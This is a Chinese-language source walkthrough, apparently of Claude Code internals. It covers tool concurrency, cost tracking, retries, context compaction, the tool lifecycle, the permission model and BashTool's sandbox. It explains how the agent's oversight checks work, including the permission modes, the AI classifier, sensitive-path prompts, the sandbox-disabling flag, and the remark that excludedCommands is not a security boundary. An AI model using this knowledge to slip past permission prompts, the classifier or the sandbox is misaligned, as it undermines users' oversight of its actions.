- **`addTool`**（`:76`）：入队即 `processQueue()`（`:123`）。
- **`canExecuteTool`**（`:129`）：并发安全工具可与其它并发安全工具并行；非并发工具独占。
- **`executeTool`**（`:265`）：每个工具一个 `toolAbortController`（子控制器，`:301`），调 `runToolUse`。progress 立即 yield，结果缓冲。
- **Bash 错误级联**（`:354-364`）：仅 Bash 工具 `is_error` 时设 `hasErrored` 并 `siblingAbortController.abort('sibling_error')`，取消兄弟工具。Read/WebFetch 等独立工具失败不影响其它。
- **`getCompletedResults`**（`:412`）：非阻塞按序产出已完成结果。
- **`getRemainingResults`**（`:453`）：阻塞等待剩余。
- **`discard()`**（`:69`）：流式 fallback 时丢弃，生成合成错误结果。

### 16.2 非流式 runTools

`runTools`（`toolOrchestration.ts:19`）由 QueryEngine 流式消费时使用。它先 **`partitionToolCalls`**（`:91`）把同批 tool_use 分桶：

- 连续的**并发安全**工具（`isConcurrencySafe(input)=true`，如 Read/Grep/Glob）→ `runToolsConcurrently`（`:152`），用 `getMaxToolUseConcurrency()`（默认 10）并发。
- 非并发安全工具 → `runToolsSerially`（`:118`）串行。

两者最终都调用 `runToolUse`。context modifier 方面：非并发工具的 context 修改立即应用，并发的延后 batch 结束统一应用。

### 16.3 并发模型的价值

流式工具执行是 Claude Code 性能的关键优化之一。传统实现会等待整条模型响应完成才开始执行工具，而 Claude Code 在模型产出第一个 `tool_use` 块后立即开始执行，模型继续流式输出后续内容。对于"读取多个文件"这类并发安全工具，多个 Read 可以同时执行，端到端延迟接近最慢的一个工具而非所有工具之和。


```mermaid
graph LR
    subgraph 传统实现
        M1[模型流式输出] --> W1[等待完成] --> T1[工具1] --> T2[工具2] --> T3[工具3]
    end
    subgraph Claude Code 流式执行
        M2[模型流式输出] --> TU1[tool_use块1] --> TE1[立即执行工具1]
        M2 --> TU2[tool_use块2] --> TE2[立即执行工具2]
        M2 --> TU3[tool_use块3] --> TE3[立即执行工具3]
    end
```

## 第 17 章 成本与 Token 追踪

### 17.1 Token 累计（流式过程）

- `claude.ts:message_delta` 中 `updateUsage(usage, part.usage)`（`:2214`）单消息累计；`addToTotalSessionCost(costUSD, usage, model)`（`:2252`）记账。
- `updateUsage`（`claude.ts:2924`）：取 `> 0` 的值覆盖（避免 message_delta 把真实值覆盖为 0），含 input/output/cache_read/cache_creation/server_tool_use/iterations/speed。
- `accumulateUsage`（`claude.ts:2993`）：跨消息求和（用于 `totalUsage`）。

### 17.2 会话级成本

`cost-tracker.ts` + `bootstrap/state.ts`：

- `addToTotalSessionCost`（`cost-tracker.ts:278`）：`calculateUSDCost(model, usage)` 算钱 → `addToTotalModelUsage`（`:250`）按模型分桶 → `addToTotalCostState` 写全局 state。同时更新 metrics counters（`getCostCounter/add`、`getTokenCounter`），含 fast mode 标签。递归处理 advisor usage（`:304`）。
- `getTotalCost()` / `getTotalAPIDuration()` / `getModelUsage()` 等从 state 读取（`QueryEngine.ts:28-31` re-export）。
- `saveCurrentSessionCosts`（`cost-tracker.ts:143`）：进程 `exit` 时写项目配置（`costHook.ts:6` `useCostSummary` 监听 `process.on('exit')`），`restoreCostStateForSession` resume 时恢复。

### 17.3 预算熔断

QueryEngine 层实现两道预算保护：

1. **`maxBudgetUsd`**：每轮检查（`QueryEngine.ts:972`），超限 yield `error_max_budget_usd`，立即终止查询。
2. **`taskBudget`**：API 端 task_budget beta，在压缩时维护 `taskBudgetRemaining`（`query.ts:508-515`）。

result 消息携带 `usage: this.totalUsage, total_cost_usd: getTotalCost(), modelUsage: getModelUsage()`（`:1145-1147`），让调用方（UI/SDK）感知完整成本。

## 第 18 章 错误处理与重试恢复

Claude Code 的错误处理是分层的、有状态的，针对不同错误类型有不同的恢复策略。

### 18.1 API 层重试 withRetry

`src/services/api/withRetry.ts`：

- 重试 429（rate limit）/ 529（overloaded）：`MAX_529_RETRIES = 3`，指数退避（`getRetryDelay` `:530`）。
- `CLAUDE_CODE_UNATTENDED_RETRY`（ant 无人值守）：持续重试 429/529（`:108`）。
- `FallbackTriggeredError`（`:160`）：模型过载触发 fallback，切 `fallbackModel` 重试。
- 非 foreground querySource 遇 529 直接放弃（`:318`）。

### 18.2 queryLoop 层的恢复逻辑

`query.ts` 实现了五种恢复路径：

**路径 1：流式 fallback**（`:711-741`）。`onStreamingFallback` 触发时，对已产出 assistant 消息 yield `tombstone`（墓碑，标记为失效），清空状态，重建 `StreamingToolExecutor`。

**路径 2：模型 fallback**（`:893-953`）。捕获 `FallbackTriggeredError`，`currentModel = fallbackModel`，`stripSignatureBlocks` 去 thinking 签名块（不同模型签名不兼容），yield 系统警告，`continue` 重试。

**路径 3：prompt-too-long / max_output_tokens 暂扣**（`:799-822`）。`isWithheldMaxOutputTokens` / `reactiveCompact.isWithheldPromptTooLong` / `isWithheldMediaSizeError` 不立即 yield，等恢复路径：
- PTL（prompt too long）→ `contextCollapse.recoverFromOverflow`（`:1094`）→ `reactiveCompact.tryReactiveCompact`（`:1120`）
- max_output_tokens → 升级到 `ESCALATED_MAX_TOKENS`（`:1199`）或注入 recovery meta 消息（最多 `MAX_OUTPUT_TOKENS_RECOVERY_LIMIT=3` 次，`:1223`）

**路径 4：错误兜底**（`:955-997`）。`yieldMissingToolResultBlocks` 为孤儿 tool_use 补合成 tool_result（防 API 配对错误），`createAssistantAPIErrorMessage` yield 错误，`return { reason:'model_error' }`。

**路径 5：中断处理**（`:1015-1052`）。abort 时消费 `streamingToolExecutor.getRemainingResults()` 生成合成 tool_result（防 tool_use 无配对），`createUserInterruptionMessage`。

**stop hook 阻塞**（`:1282-1306`）：blocking errors 拼入消息 `continue` 重试（保留 `hasAttemptedReactiveCompact` 防死循环）。


```mermaid
flowchart TD
    ERR[错误发生] --> TYPE{错误类型}
    TYPE -->|429/529| RT[withRetry 指数退避]
    TYPE -->|模型过载| FB[FallbackTriggeredError]
    FB --> SWM[切 fallbackModel]
    SWM --> SS[stripSignatureBlocks 去签名]
    SS --> RETRY[continue 重试]
    TYPE -->|流式失败| SF[onStreamingFallback]
    SF --> TS[yield tombstone 清状态]
    TS --> RB[重建 StreamingToolExecutor]
    RB --> RETRY
    TYPE -->|prompt too long| PTL[recoverFromOverflow]
    PTL --> RC[tryReactiveCompact]
    RC --> RETRY
    TYPE -->|max_output_tokens| MOT[升级 ESCALATED_MAX_TOKENS]
    MOT --> RETRY2[注入 recovery meta 最多3次]
    TYPE -->|孤儿 tool_use| YMR[yieldMissingToolResultBlocks 补合成]
    YMR --> RET[return model_error]
    TYPE -->|中断 abort| INT[getRemainingResults 合成 tool_result]
    INT --> UIM[createUserInterruptionMessage]
```

## 第 19 章 自动压缩链

当对话历史接近上下文窗口上限时，Claude Code 触发多级压缩策略，从最轻量的裁剪到最重的摘要化。这是一个精心设计的、分层的"压力释放"管道。

### 19.1 上下文窗口计算

`src/utils/context.ts`：

- `MODEL_CONTEXT_WINDOW_DEFAULT = 200_000`（`:9`）；`[1m]` 后缀或 beta 头 → 1_000_000（`getContextWindowForModel` `:51`，优先级：`CLAUDE_CODE_MAX_CONTEXT_TOKENS` ant override → `[1m]` → model capability `max_input_tokens` → `CONTEXT_1M_BETA_HEADER` → sonnet-1m 实验 → 默认 200k）。
- `COMPACT_MAX_OUTPUT_TOKENS = 20_000`（`:12`）；`CAPPED_DEFAULT_MAX_TOKENS = 8_000` / `ESCALATED_MAX_TOKENS = 64_000`（`:24-25`）。

`src/services/compact/autoCompact.ts`：

- `getEffectiveContextWindowSize`（`:33`）= 上下文窗口 − `min(getMaxOutputTokens, 20_000)` 保留输出空间。
- `getAutoCompactThreshold`（`:72`）= effectiveWindow − `AUTOCOMPACT_BUFFER_TOKENS = 13_000`（`:62`）。
- 告警阈值：`WARNING_THRESHOLD_BUFFER_TOKENS = 20_000`、`ERROR_THRESHOLD_BUFFER_TOKENS = 20_000`、手动压缩 `MANUAL_COMPACT_BUFFER_TOKENS = 3_000`（`:63-65`）。
- `calculateTokenWarningState`（`:93`）计算 percentLeft + 五档状态（warning/error/autoCompact/blocking）。
- `shouldAutoCompact`（`:160`）：递归保护（session_memory/compact 源不触发）、context-collapse/reactive-compact 冲突抑制、`DISABLE_COMPACT`/`DISABLE_AUTO_COMPACT`/`autoCompactEnabled` 开关。
- `autoCompactIfNeeded`（`:241`）：**熔断器** `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3`（`:70`）——连续失败 3 次后本会话停止重试（曾发现 1,279 个会话出现 50+ 连续失败，浪费 ~250K 次 API 调用/天）。

### 19.2 消息预处理管道

queryLoop 每轮迭代开始时，消息依次经过：

1. `getMessagesAfterCompactBoundary` — 取压缩边界后消息
2. `applyToolResultBudget` — 工具结果大小预算
3. `snipModule.snipCompactIfNeeded` — HISTORY_SNIP 历史裁剪
4. `microcompactMessages` — 预压缩 token 削减
5. `contextCollapse.applyCollapsesIfNeeded` — CONTEXT_COLLAPSE 上下文折叠
6. `autoCompactIfNeeded` — 自动压缩

这是一个**从轻到重**的管道：前面的步骤越轻量、越不破坏上下文，越优先尝试。只有当轻量步骤不足以缓解压力时，才升级到更重的步骤。


```mermaid
flowchart LR
    MSGS[原始消息历史] --> A[getMessagesAfterCompactBoundary]
    A --> B[applyToolResultBudget]
    B --> C[snipCompactIfNeeded<br/>HISTORY_SNIP 历史裁剪]
    C --> D[microcompactMessages<br/>预压缩 token 削减]
    D --> E[applyCollapsesIfNeeded<br/>CONTEXT_COLLAPSE]
    E --> F[autoCompactIfNeeded<br/>自动压缩]
    F --> G{触发?}
    G -->|否| SEND[发送请求]
    G -->|是| COMPACT[compactConversation 摘要]
    COMPACT --> BUILD[buildPostCompactMessages 替换]
    BUILD --> SEND
```

### 19.3 microcompact 预压缩

`microcompactMessages`（`microCompact.ts:253`）在正式摘要前减少 token，有两种模式：

**cached microcompact**（`cachedMicrocompactPath` `:305`，GB `tengu_cache_plum_violet` 恒开）：用 **cache_edits API 直接删除旧 tool_result**，不改本地消息内容、不破坏缓存前缀；按阈值触发、保留最近 N 个工具（`getToolResultsToDelete`），生成 `cache_edits` 块在 API 层生效。这是最高效的压缩方式——完全不重新摘要，只在 API 侧裁剪旧工具结果。

**time-based microcompact**（`maybeTimeBasedMicrocompact`/`evaluateTimeBasedTrigger` `:422`）：距上条 assistant 消息超阈值（服务端缓存已过期）时，直接 content-clear 旧 tool_result（缓存冷，无前缀可保护）。

### 19.4 自动压缩熔断器

`autoCompactIfNeeded` 的熔断器设计值得特别关注。它源于一个真实的运维事故：曾发现 1,279 个会话出现 50+ 连续自动压缩失败，每天浪费约 250K 次 API 调用。熔断器在连续失败 3 次后停止本会话的自动压缩重试，避免无限循环消耗资源。这是一个"宁可让用户手动处理，也不要无谓消耗"的务实设计。

---

# 第四部分 工具系统

工具系统是 Claude Code 赋能模型执行实际操作的核心机制。模型通过产出 `tool_use` 块来调用工具，工具执行后将结果以 `tool_result` 形式回填。Claude Code 内置了 40 余种工具，涵盖 Bash 命令执行、文件读写、代码搜索、LSP 代码智能、Web 访问、子代理委派等能力。

## 第 20 章 Tool 接口与 buildTool 工厂

Claude Code 的工具系统采用**结构化类型（非 class）+ 工厂函数 `buildTool`** 的设计，而非面向对象的继承。这一选择使得工具定义极其灵活、可组合，同时保持类型安全。

### 20.1 核心 Tool 类型

核心类型 `Tool<Input, Output, P>` 定义于 `src/Tool.ts:362-695`。关键字段：

**元信息字段**：

- **`name: string`**（`:456`）—— 工具主名
- **`aliases?: string[]`**（`:371`）—— 旧名兼容，被 `toolMatchesName` 用于别名查找（`:348-353`）
- **`searchHint?: string`**（`:378`）—— 给 ToolSearch 关键词匹配用（3-10 词）
- **`inputSchema: Input`**（`:394`）—— Zod schema（懒加载）。另有 `inputJSONSchema?`（`:397`）供 MCP 工具直接用 JSON Schema
- **`outputSchema?`**（`:400`）—— Zod 输出 schema
- **`maxResultSizeChars: number`**（`:466`）—— 超过此字符数则结果落盘（Read 设为 `Infinity` 避免循环）
- **`strict?: boolean`**（`:472`）—— 启用严格模式
- **`shouldDefer?` / `alwaysLoad?`**（`:442/449`）—— 控制 ToolSearch 延迟加载

**核心方法（执行链）**：

1. **`validateInput?(input, context): Promise<ValidationResult>`**（`:489`）—— 工具特定输入校验（在 schema 校验后），返回 `{result:false, message, errorCode}`
2. **`checkPermissions(input, context): Promise<PermissionResult>`**（`:500`）—— 工具特定权限检查（仅当 validateInput 通过后调用）
3. **`call(args, context, canUseTool, parentMessage, onProgress?): Promise<ToolResult<Output>>`**（`:379`）—— 实际执行入口
4. **`mapToolResultToToolResultBlockParam(content, toolUseID): ToolResultBlockParam`**（`:557`）—— 把输出序列化为 API tool_result 块

**元信息方法**：

- `isEnabled(): boolean`、`isConcurrencySafe(input): boolean`、`isReadOnly(input): boolean`、`isDestructive?(input)`、`interruptBehavior?(): 'cancel'|'block'`
- `isSearchOrReadCommand?`（`:429`）—— UI 折叠用
- `getPath?(input)`、`preparePermissionMatcher?(input)`（`:506/514`）—— hook `if` 模式匹配
- `backfillObservableInput?(input)`（`:481`）—— 在 hooks/canUseTool 看到输入前回填（如 expandPath），**不改动 API 绑定的原始输入**以保缓存
- `toAutoClassifierInput(input)`（`:556`）—— auto 模式安全分类器输入

**渲染方法（React）**：

`renderToolUseMessage`、`renderToolResultMessage?`、`renderToolUseProgressMessage?`、`renderToolUseRejectedMessage?`、`renderToolUseErrorMessage?`、`renderGroupedToolUse?`、`extractSearchText?` 等。这些方法返回 React 节点，供 Ink 渲染器在终端展示工具调用的进展与结果。

### 20.2 buildTool 工厂

`buildTool`（`Tool.ts:757-792`）用 `TOOL_DEFAULTS` 填充可缺省方法，fail-closed 默认值：

```ts
// fail-closed 默认值
isEnabled: () => true
isConcurrencySafe: () => false   // 假设不安全
isReadOnly: () => false          // 假设写
isDestructive: () => false
checkPermissions: (input) => ({behavior:'allow', updatedInput: input})  // 交给通用权限系统
toAutoClassifierInput: () => ''  // 安全相关工具必须覆盖
```

**fail-closed** 是关键设计——默认假设工具是"写操作、不并发安全"，只有明确声明 `isConcurrencySafe: true` / `isReadOnly: true` 的工具才获得并行执行特权。这确保了未正确标注的工具默认走最安全的串行执行路径。调用形式：`buildTool({...} satisfies ToolDef<Input, Output, Progress>)`。

### 20.3 ToolUseContext

`ToolUseContext`（`Tool.ts:158-300`）是工具执行时携带的上下文对象：

- `abortController` —— 中断控制
- `readFileState` —— FileStateCache LRU，记录已读文件的 mtime，用于"文件未变则跳过重读"优化
- `getAppState()` / `setAppState()` —— 状态访问
- `setAppStateForTasks` —— 异步代理专用
- `options.tools` —— 当前可用工具集
- `options.mcpClients` —— MCP 客户端
- `messages` —— 当前消息历史
- `toolUseId` —— 本次工具调用 ID
- `agentId` —— 代理 ID
- `contentReplacementState` —— 结果预算

### 20.4 ToolResult

`ToolResult<T>`（`Tool.ts:321`）：`{ data, newMessages?, contextModifier?, mcpMeta? }`。`contextModifier` 仅对非并发安全工具生效（并发安全工具的 context 修改延后 batch 结束统一应用）。

## 第 21 章 工具注册表与装配

### 21.1 注册：getAllBaseTools

`src/tools.ts` 的 `getAllBaseTools(): Tools`（`:193-251`）返回静态数组，是工具的**单一真相源**，包含：

```
AgentTool, TaskOutputTool, BashTool, [GlobTool, GrepTool]（除非有嵌入式搜索）,
ExitPlanModeV2Tool, FileReadTool, FileEditTool, FileWriteTool, NotebookEditTool,
WebFetchTool, TodoWriteTool, WebSearchTool, TaskStopTool, AskUserQuestionTool,
SkillTool, EnterPlanModeTool, SendMessageTool, ListMcpResourcesTool,
ReadMcpResourceTool, [ToolSearchTool]...
```

大量工具按 `feature(...)` / `process.env` 条件懒加载 `require`（死代码消除），如 `REPLTool`、`SleepTool`、cron 工具、`WebBrowserTool`、`PowerShellTool`、Team 工具等。

### 21.2 过滤链

工具从注册表到实际可用，经过两步过滤：

**步骤 1：`getTools(permissionContext)`**（`:271-327`）
- simple 模式只留 Bash/Read/Edit
- 否则取 base tools，剔除 specialTools
- 经 `filterToolsByDenyRules`（`:262-269`）按 deny 规则剔除工具
- 再按 `isEnabled()` 过滤

**步骤 2：`assembleToolPool(permissionContext, mcpTools)`**（`:345-367`）
- 内置工具 + MCP 工具，各自按 deny 规则过滤
- 按名排序（内置工具作为连续前缀以保 prompt cache 稳定）
- `uniqBy 'name'` 去重（内置优先）

### 21.3 prompt cache 友好的工具排序

`assembleToolPool` 中"按名排序，内置工具作为连续前缀"是一个容易被忽略但重要的优化。Anthropic API 的 prompt cache 以前缀字节匹配为粒度，工具定义是系统提示的一部分。如果工具顺序在不同会话间变化，缓存前缀就会失效。通过稳定排序并将内置工具放前面，MCP 工具放后面，确保了工具集变化时缓存前缀尽可能稳定。


```mermaid
graph TB
    REG[getAllBaseTools 单一真相源] --> GET[getTools permissionContext]
    GET --> SIM{simple模式?}
    SIM -->|是| MIN[Bash/Read/Edit]
    SIM -->|否| BASE[base tools]
    BASE --> DENY[filterToolsByDenyRules]
    DENY --> EN[filter isEnabled]
    EN --> ASM[assembleToolPool]
    MIN --> ASM
    MCP[MCP 工具] --> ASM
    ASM --> SORT[按名排序 内置为前缀]
    SORT --> UNIQ[uniqBy name 去重 内置优先]
    UNIQ --> POOL[最终工具池 → 注入 QueryEngine]
```

## 第 22 章 工具生命周期

工具生命周期是工具系统最核心的部分，定义了一个工具调用从触发到完成的完整流程。核心实现在 `src/services/tools/toolExecution.ts` 的 `checkPermissionsAndCallTool`（`:599-1745`）。

### 22.1 完整执行顺序

1. **找工具**（`runToolUse:345-356`）：先在 `options.tools` 里按 name/alias 查；未找到则报 `No such tool available` 错误。
2. **abort 检查**（`:415`）：signal 已中止则返回 `CANCEL_MESSAGE`。
3. **Zod schema 校验**（`:615`）：`tool.inputSchema.safeParse(input)`。失败则返回 `InputValidationError`，并尝试 `buildSchemaNotSentHint`（`:578`）提示延迟加载的工具需先 ToolSearch。
4. **`tool.validateInput`**（`:683`）：工具自定义校验（如 Read 的 PDF 页码范围、Glob 的目录存在性、Bash 的 sleep 模式拦截）。失败返回 `{result:false, message, errorCode}`。
5. **投机启动 Bash 分类器**（`:740-752`）：仅 BashTool，`startSpeculativeClassifierCheck` 与 hook/权限并行跑。
6. **`backfillObservableInput`**（`:784-793`）：浅克隆输入供 hooks/canUseTool 看到（如 expandPath），不污染 `callInput`。
7. **PreToolUse Hooks**（`:800-862`）：`runPreToolUseHooks`，可产出：message、hookPermissionResult、hookUpdatedInput（透传修改）、preventContinuation、stopReason、additionalContext、stop。
8. **`resolveHookPermissionDecision`**（`toolHooks.ts:332-431`）：合并 hook 决策与规则权限（详见第 23 章）。
9. **`canUseTool` / `hasPermissionsToUseTool`**（`permissions.ts:473`）：通用权限检查。
10. **permissionDecision 判断**：
    - `!== 'allow'`（`:995`）→ 构造 `tool_result` is_error，可能运行 PermissionDenied hooks（auto 模式分类器拒绝时），return
    - `allow` → 用 `permissionDecision.updatedInput` 覆盖 processedInput（`:1130`）
11. **`tool.call(...)`**（`:1207`）：实际执行，传入 `onProgress` 回调。
12. **结果映射**（`:1292`）：`tool.mapToolResultToToolResultBlockParam(result.data, toolUseID)` 一次性转为 API 格式并缓存；计算 `toolResultSizeBytes`。
13. **PostToolUse Hooks**（`:1483-1531`）：`runPostToolUseHooks`，可改 MCP 工具输出（`updatedMCPToolOutput`）或注入附加消息。
14. **addToolResult**（`:1403-1474`）：经 `processToolResultBlock`/`processPreMappedToolResultBlock`（处理大结果落盘），加上 acceptFeedback/contentBlocks。
15. **newMessages**（`:1566`）：工具返回的附加消息（如 Read 图片的 meta 消息、PDF document 块）。
16. **错误路径**（`:1589-1737`）：`runPostToolUseFailureHooks`，MCP auth 错误更新客户端状态为 `needs-auth`。
17. **telemetry**：贯穿全程的 `logEvent('tengu_tool_use_*')` 与 OTel span。


```mermaid
flowchart TD
    START[tool_use 块到达] --> FIND[1. 找工具 name/alias]
    FIND -->|未找到| ERR1[No such tool available]
    FIND -->|找到| ABRT[2. abort 检查]
    ABRT -->|已中止| CANCEL[CANCEL_MESSAGE]
    ABRT -->|继续| ZOD[3. Zod schema.safeParse]
    ZOD -->|失败| ERR2[InputValidationError + schema hint]
    ZOD -->|成功| VI[4. validateInput 业务校验]
    VI -->|失败| ERR3[业务校验失败]
    VI -->|通过| SPEC[5. 投机Bash分类器 并行]
    SPEC --> BF[6. backfillObservableInput]
    BF --> PRE[7. PreToolUse Hooks]
    PRE --> RES[8. resolveHookPermissionDecision]
    RES --> CAN[9. canUseTool 权限检查]
    CAN --> DEC{permission}
    DEC -->|deny/ask| DEN[构造 tool_result is_error]
    DEC -->|allow| UPD[覆盖 updatedInput]
    UPD --> CALL[11. tool.call 执行]
    CALL --> MAP[12. mapToolResultToToolResultBlockParam]
    MAP --> POST[13. PostToolUse Hooks]
    POST --> ADD[14. addToolResult 落盘处理]
    ADD --> NM[15. newMessages 附加]
    NM --> DONE[返回 tool_result]
    DEN --> DONE
```

## 第 23 章 权限模型

权限模型是 Claude Code 安全体系的核心，采用 **allow / deny / ask** 三态决策。

### 23.1 类型定义

`src/types/permissions.ts`：

- **`PermissionMode`**（`:29`）：`'acceptEdits' | 'bypassPermissions' | 'default' | 'dontAsk' | 'plan' | 'auto' | 'bubble'`
- **`PermissionBehavior`**（`:44`）：`'allow' | 'deny' | 'ask'`
- **`PermissionRule`**（`:75`）：`{ source, ruleBehavior, ruleValue: {toolName, ruleContent?} }`
- **`PermissionRuleSource`**（`:54`）：`userSettings/projectSettings/localSettings/flagSettings/policySettings/cliArg/command/session`
- **`PermissionResult`**（`:251`）：= `PermissionDecision | {behavior:'passthrough', ...}`（passthrough 表示工具自身无定论，交给上层）
- **`PermissionDecisionReason`**（`:271`）：`rule | mode | subcommandResults | permissionPromptTool | hook | asyncAgent | sandboxOverride | classifier | workingDir | safetyCheck | other`

### 23.2 核心函数 checkRuleBasedPermissions

`checkRuleBasedPermissions`（`permissions.ts:1071-1156`）按固定优先级顺序检查：

1. **1a** 工具整体 deny 规则（`getDenyRuleForTool`）→ deny
2. **1b** 工具整体 ask 规则（`getAskRuleForTool`）→ ask（除非 Bash 沙箱可自动放行）
3. **1c** `tool.checkPermissions`（工具特定，如 bash 子命令规则）
4. **1d** 工具实现返回 deny → deny
5. **1f** 内容相关 ask 规则（如 `Bash(npm publish:*)`）→ ask
6. **1g** **safetyCheck**（`.git/`、`.claude/`、`.vscode/`、shell 配置等敏感路径）→ **bypass 免疫**，即使 hook allow 也必须提示

### 23.3 hasPermissionsToUseTool

`hasPermissionsToUseTool`（`permissions.ts:473`）包装 `hasPermissionsToUseToolInner`，后处理：

- allow 时重置 auto 模式的连续拒绝计数
- ask 时按 mode 转换：
  - `dontAsk` → deny
  - `auto`/`plan(auto)` → 走 AI 分类器（`TRANSCRIPT_CLASSIFIER` feature）
  - `shouldAvoidPermissionPrompts`（后台代理无 UI）→ deny

### 23.4 权限决策来源

权限决策的 `reason` 字段记录了决策的来源，便于审计与调试：

| reason | 含义 |
|---|---|
| `rule` | 来自 settings.json 的 allow/deny/ask 规则 |
| `mode` | 来自权限模式（acceptEdits/bypassPermissions 等）|
| `hook` | 来自 PreToolUse hook 的决策 |
| `classifier` | 来自 auto 模式的 AI 分类器 |
| `sandboxOverride` | Bash 沙箱自动放行 |
| `safetyCheck` | 敏感路径强制提示 |
| `asyncAgent` | 异步代理的特殊处理 |
| `workingDir` | 工作目录相关 |


```mermaid
flowchart TD
    IN[工具调用请求] --> DENY[1a 工具整体deny规则]
    DENY -->|命中| D[deny]
    DENY -->|未命中| ASK[1b 工具整体ask规则]
    ASK -->|命中| AS[ask 除非沙箱放行]
    ASK -->|未命中| TCP[1c tool.checkPermissions]
    TCP -->|deny| D
    TCP -->|passthrough| CASK[1f 内容ask规则]
    CASK -->|命中| AS
    CASK -->|未命中| SAFE[1g safetyCheck 敏感路径]
    SAFE -->|敏感| AS
    SAFE -->|非敏感| ALW[allow]
    AS --> MODE{权限模式}
    MODE -->|dontAsk| D
    MODE -->|auto/plan| CLS[AI分类器]
    MODE -->|default| PROMPT[弹窗询问用户]
    MODE -->|bypassPermissions| ALW
```

## 第 24 章 BashTool 深度解析

BashTool 是最复杂、最危险也最常用的工具，它负责在用户机器上执行 shell 命令。其实现融合了沙箱、AST 安全分析、超时处理、后台任务、大输出落盘等多重机制。文件位于 `src/tools/BashTool/BashTool.tsx`。

### 24.1 Schema

`fullInputSchema`（`:227-259`）：

- `command` —— 要执行的命令
- `timeout` —— 超时时间
- `description` —— 命令描述
- `run_in_background` —— 是否后台运行
- `dangerouslyDisableSandbox` —— 危险地禁用沙箱
- `_simulatedSedEdit` —— 内部字段，从模型 schema 中 omit 以防绕过权限

`inputSchema` 按 `isBackgroundTasksDisabled` 条件 omit `run_in_background`。

### 24.2 关键方法

- **`isReadOnly`**（`:437`）：`checkReadOnlyConstraints` + `commandHasAnyCd` 检测
- **`isConcurrencySafe`**（`:434`）：等于 `isReadOnly`（只读命令才并发安全）
- **`isSearchOrReadCommand`**（`:469`）：`isSearchOrReadBashCommand` 按管道分段判定（`:95-172`），分类为 search（find/grep/rg...）/read（cat/head/jq...）/list（ls/tree/du）命令，用于 UI 折叠
- **`preparePermissionMatcher`**（`:445`）：AST 解析后按 argv 匹配 hook 模式，复合命令任一子命令匹配即触发
- **`validateInput`**（`:524`）：`detectBlockedSleepPattern` 拦截 `sleep N`（建议用 run_in_background 或 Monitor）
- **`checkPermissions`**（`:539`）：`bashToolHasPermission`
- **`call`**（`:624-820`）：核心执行逻辑

### 24.3 call 方法详解

`call` 方法（`:624-820`）的执行流程：

1. `_simulatedSedEdit` 走 `applySedEdit`（`:360`，sed 编辑直接写文件，保证预览即所写）
2. 调 `runShellCommand` 异步生成器（`:826`），消费进度事件
3. `interpretCommandResult` 语义化退出码
4. `SandboxManager.annotateStderrWithSandboxFailures` 标注沙箱违规
5. 大输出落盘：> `MAX_PERSISTED_SIZE`（64MB）截断，`link`/`copyFile` 到 tool-results 目录
6. `extractClaudeCodeHints` 提取 `<claude-code-hint />` 侧信道后剥离
7. 图片输出检测与压缩（`resizeShellImageOutput`）

### 24.4 runShellCommand 命令执行核心

`runShellCommand`（`:826`）是命令执行的核心：

- `exec(command, signal, 'bash', {timeout, onProgress, preventCwdChanges, shouldUseSandbox, shouldAutoBackground})`（`:881`）
- **超时/后台处理**：
  - `shellCommand.onTimeout` → `startBackgrounding('tengu_bash_command_timeout_backgrounded')`（`:967`）——超时不杀进程，转后台
  - assistant 模式 15s 预算（`ASSISTANT_BLOCKING_BUDGET_MS`）自动后台（`:976-983`）
  - 显式 `run_in_background:true` → `spawnShellTask`（`:989`）
  - 用户 Ctrl+B → `backgroundExistingForegroundTask`（`:929`）
- **进度循环**（`:1034`）：`TaskOutput.startPolling` 驱动 `onProgress` → resolve progressSignal → 生成器 yield
- `preventCwdChanges`：子代理不允许改 cwd（`:643`）

### 24.5 沙箱机制

`shouldUseSandbox`（`shouldUseSandbox.ts:130`）决定是否沙箱执行：

1. `SandboxManager.isSandboxingEnabled()` 关则不沙箱
2. `dangerouslyDisableSandbox` 且策略允许则不沙箱
3. `containsExcludedCommand`（用户配置 `sandbox.excludedCommands` + ant 动态配置）匹配则不沙箱
4. 否则沙箱

**重要澄清**：excludedCommands 是便利功能而非安全边界，真正的安全控制是权限提示系统。沙箱是一种纵深防御——即使模型尝试执行危险命令，沙箱也会限制其影响范围。

### 24.6 Bash 权限：bashToolHasPermission

`bashToolHasPermission`（`bashPermissions.ts:1663`）实现 Bash 特有的权限检查：

- **AST 安全解析**（tree-sitter）：检测命令注入风险，shadow 模式可观测不启用
- **子命令前缀规则匹配**（`bashToolCheckPermission`，`:1050`）：如 `Bash(git *)` 匹配所有 git 子命令
- **复合命令拆分**：`&&`/`;` 拆分，每个子命令分别匹配
- **env var 前缀剥离**：`FOO=bar git ...` 仍匹配 `Bash(git *)`
- **投机分类器**：`startSpeculativeClassifierCheck`/`consumeSpeculativeClassifierCheck`（`:1497/1533`），与权限检查并行跑 AI 分类，加速 auto 模式

## 第 25 章 文件工具族

文件工具族是仅次于 BashTool 的核心工具集，负责代码与文档的读写、编辑、搜索。

### 25.1 FileReadTool

`src/tools/FileReadTool/FileReadTool.ts`：

- **`maxResultSizeChars: Infinity`**（自限，不落盘避免 Read→file→Read 循环）
- **`isConcurrencySafe: true`、`isReadOnly: true`**
- **去重优化**（`:536-573`）：`readFileState` 命中同范围且 mtime 未变 → 返回 `file_unchanged` stub（省 cache_creation token，GB 可 killswitch）
- **多类型支持**：notebook（`ipynb`）、image（png/jpg/gif/webp）、PDF（pages 参数按页提取）、text
- `callInner`（`:804`）按扩展名分支；text 用 `readFileInRange`（`:1019`）单次异步读，`validateContentTokens` 估算 token 超限报错
- 图片：`readImageWithTokenBudget`（`:1097`）一次读取，按 token 预算压缩
- PDF：`extractPDFPages` + 补充 `document` 块作为 `newMessages`
- `mapToolResultToToolResultBlockParam`（`:652`）：image→image block；text→加行号 + `CYBER_RISK_MITIGATION_REMINDER`（恶意软件分析提醒，opus-4-6 豁免）
- **安全**：`isBlockedDevicePath`（`:117`）拦截 `/dev/zero`、`/dev/random`、`/proc/*/fd/0-2` 等会挂起的设备文件；UNC 路径跳过 fs 操作防 NTLM 凭据泄露

### 25.2 FileEditTool

`src/tools/FileEditTool/FileEditTool.ts`：

- `maxResultSizeChars: 100_000`，`strict: true`
- `validateInput`（`:137`）：`old_string===new_string` 拒绝；`checkTeamMemSecrets` 拦截 team memory 文件泄密；deny 规则；`MAX_EDIT_FILE_SIZE`（1GB）防 OOM；读文件检测编码（BOM→utf16le）
- `checkPermissions`：`checkWritePermissionForTool`（写权限）
- VS Code 通知、LSP 诊断清理、文件历史追踪（undo 支持）

### 25.3 FileWriteTool

`src/tools/FileWriteTool/FileWriteTool.ts`：

- schema：`file_path` + `content`
